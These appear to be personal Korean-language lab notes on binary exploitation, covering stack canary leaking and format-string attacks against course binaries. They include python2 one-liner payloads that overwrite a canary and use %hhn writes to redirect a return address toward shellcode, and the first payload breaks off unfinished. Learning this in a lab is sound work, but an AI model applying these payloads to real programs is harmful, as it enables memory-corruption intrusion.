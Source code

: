 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x